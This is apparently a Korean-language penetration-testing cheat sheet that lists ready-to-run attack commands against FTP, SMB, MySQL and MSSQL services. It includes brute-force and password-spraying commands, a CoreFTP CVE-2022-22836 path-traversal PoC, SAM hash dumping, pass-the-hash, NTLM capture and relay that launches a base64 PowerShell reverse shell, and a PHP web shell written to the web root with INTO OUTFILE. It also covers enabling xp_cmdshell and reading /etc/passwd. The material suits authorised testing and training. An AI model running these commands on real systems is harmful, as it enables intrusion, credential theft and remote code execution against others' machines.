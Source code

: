 # 1. FTP

### Medusa를 이용한 Brute Forcing 
```medusa -u <user> -P /usr/share/wordlists/rockyou.txt -h 192.168.1.1 -M ftp ```

### Hydra를 이용한 Brute Forcing
```hydra -L users.list -P passwords.list ftp://192.168.1.1 -t 4```

### FTP 바운스 공격 (-b 플래그)
```nmap -Pn -v -n -p80 -b anonymous:password@192.168.1.1 172.16.0.1```

### CoreFTP Exploit (CVE-2022-22836)
```curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops```

<br/><br/>
# 2. SMB

### Null Session 파일공유
```smbclient -N -L //192.168.1.1```<br/>
```smbmap -H 192.168.1.1```<br/>
```smbmap -H 192.168.1.1 -r notes```<br/>
```smbmap -H 192.168.1.1 --download "notes\note.txt"```<br/>
```smbmap -H 192.168.1.1 --upload test.txt "notes\test.txt"```

### Remote Procedure Call (RPC)
```
rpcclient -U'%' 192.168.1.1
rpcclient $> enumdomusers
```

### Enum4linux 툴
```./enum4linux-ng.py 192.168.1.1 -A -C```

### CrackMapExec(CME)를 사용한 password spraying
```crackmapexec smb 192.168.1.1 -u /tmp/userlist.txt -p <password> --local-auth```
- ```--local-auth``` : 도메인에 가입되지 않은 호스트 대상
- ```--continue-on-success``` : 유효한 로그인 발견 후 계속 진행

### Impacket PsExec 툴
```impacket-psexec <user>:<password>@192.168.1.1```
- ```impacket-smbexec``` : psexec와 유사, 로컬SMB 서버를 인스턴스화하여 명령 출력을 수신
- ```impacket-atexec``` : 작업 스케줄러 서비스를 통해 명령 실행 및 출력 반환
<br/><br/>
## CrackMapExec(CME)

### CMD 또는 PowerShell 실행 (-X 또는 -x 옵션)
```crackmapexec smb 192.168.1.1 -u Administrator -p <password> -x 'whoami' --exec-method smbexec```

### Logged-on Users 열거 (예 : 네트워크 대역)
```crackmapexec smb 192.168.1.0/24 -u administrator -p <password> --loggedon-users```

### SAM Database에서 Hash 추출
```crackmapexec smb 192.168.1.1 -u administrator -p <password> --sam```

### Pass-the-Hash (PtH)
```crackmapexec smb 192.168.1.1 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE```

### NetNTLM v1/v2 hashes 캡쳐
```responder -I <interface name>```<br/>
로그 위치 : ```/usr/share/responder/logs/```<br/>
```hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt```

### Impacket-ntlmrelayx를 사용한 SAM Database에서 Hash 추출 
```impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.1.1```

### Impacket-ntlmrelayx를 사용한 명령 실행 (예 : Reverse Shell)
```impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>```

<br/><br/>
# 3. SQL Databases

## MySQL

### SQL Server에 연결
```mysql -u <user> -p<password> -h 192.168.1.1```

### Secure File Privileges 체크 (값이 비어 있으면 RW 가능)
```show variables like "secure_file_priv";```

### 로컬 파일 쓰기
```SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';```

### 로컬 파일 읽기
```select LOAD_FILE("/etc/passwd");```

<br/><br/>
## MSSQL

### SQL Server에 연결
```sqlcmd -S SRVMSSQL -U <user> -P <password> -y 30 -Y 30```<br/>
```sqsh -S 192.168.1.1 -U <user> -P <password> -h```<br/>
로컬 계정 : ```sqsh -S 192.168.1.1 -U .\\<user> -P <password> -h```<br/>
```mssqlclient.py -p 1433 <user>@192.168.1.1 -windows-auth```

### XP_CMDSHELL 활성화
```
EXECUTE sp_configure 'show advanced options', 1
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```

### 로컬 파일 읽기
```SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents```

### MSSQL Service Hash 캡쳐
- 먼저 `Responder`나 `impacket-smbserver`를 시작해야 함
```
EXEC master..xp_dirtree '\\192.168.1.1\share\'
  또는
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

### linked Servers 식별
```SELECT srvname, isremote FROM sysservers```
- `isremote`이 `1`은 원격 서버, `0`은 linked 서버를 의미
```EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]```
